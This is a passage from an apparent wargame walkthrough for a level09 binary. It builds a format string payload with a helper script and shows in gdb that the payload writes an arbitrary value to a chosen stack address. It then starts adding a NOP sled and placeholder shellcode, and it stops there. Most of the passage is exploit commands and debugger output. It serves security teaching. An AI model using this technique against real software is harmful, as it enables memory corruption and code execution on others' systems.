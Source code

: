 So the base value we're writing is 0x4c443c34, and we're writing it to 0xbffff8c0 one byte at a time. As you can see, each byte is a slightly higher value than the previous one. I have a neat little script written that will help us write a value we want to an address that we choose. The script is `format.py`. You can view the help menu by typing `python format.py -h`. You need to supply four parameters in order for this to generate the correct buffer: 1) the address to overwrite one byte ata time, 2) the value to write at that address, 3) the number of dwords on the stack before we arrive at our input, and 4) the base value (in our case, it is 0x4c443c34). Let's see 
```
user@laptop:level9$ python format.py -w 0xdeadbeef -o 0xbffff8c0 -b 0x4c443c34 -n 3
'\xc0\xf8\xff\xbfAAAA\xc1\xf8\xff\xbfAAAA\xc2\xf8\xff\xbfAAAA\xc3\xf8\xff\xbf%08x%08x%195x%n%207x%n%239x%n%49x%n'

... snip ...

(gdb) run $(python -c "print '\xc0\xf8\xff\xbfAAAA\xc1\xf8\xff\xbfAAAA\xc2\xf8\xff\xbfAAAA\xc3\xf8\xff\xbf%08x%08x%195x%n%207x%n%239x%n%49x%n'")
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /levels/level09 $(python -c "print '\xc0\xf8\xff\xbfAAAA\xc1\xf8\xff\xbfAAAA\xc2\xf8\xff\xbfAAAA\xc3\xf8\xff\xbf%08x%08x%195x%n%207x%n%239x%n%49x%n'")

Breakpoint 1, 0x080483e9 in main ()
1: x/10i $eip
=> 0x80483e9 <main+69>: call   0x80482ec <printf@plt>
   0x80483ee <main+74>: mov    eax,0x0
   0x80483f3 <main+79>:  leave  
   0x80483f4 <main+80>:   ret    
   0x80483f5:  nop
   0x80483f6:   nop
   0x80483f7:    nop
   0x80483f8: nop
   0x80483f9:  nop
   0x80483fa:   nop
(gdb) ni
0x080483ee in main ()
1: x/10i $eip
=> 0x80483ee <main+74>:  mov    eax,0x0
   0x80483f3 <main+79>:  leave  
   0x80483f4 <main+80>:   ret    
   0x80483f5:  nop
   0x80483f6:   nop
   0x80483f7:    nop
   0x80483f8: nop
   0x80483f9:  nop
   0x80483fa:   nop
   0x80483fb:    nop
(gdb) x/xw 0xbffff8c0
0xbffff8c0:  0xdeadbeef
```

So now that we can write any value to any address on the stack, we should try adding in our shellcode into the buffer. Let's figure out about where on the stack our shellcode will reside.
```
(gdb) run $(python -c "print '\xc0\xf8\xff\xbfAAAA\xc1\xf8\xff\xbfAAAA\xc2\xf8\xff\xbfAAAA\xc3\xf8\xff\xbf%08x%08x%195x%n%207x%n%239x%n%49x%n' + '\x90'*100 + 'SHELLCODEZZZZZZZZ'")
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /levels/level09 $(python -c "print '\xc0\xf8\xff\xbfAAAA\xc1\xf8\xff\xbfAAAA\xc2\xf8\xff\xbfAAAA\xc3\xf8\xff\xbf%08x%08x%195x%n%207x%n%239x%n%49x%n' + '\x90'*100 + 'SHELLCODEZZZZZZZZ'")

Breakpoint 1, 0x080483e9 in main ()
1: x/10i $eip
```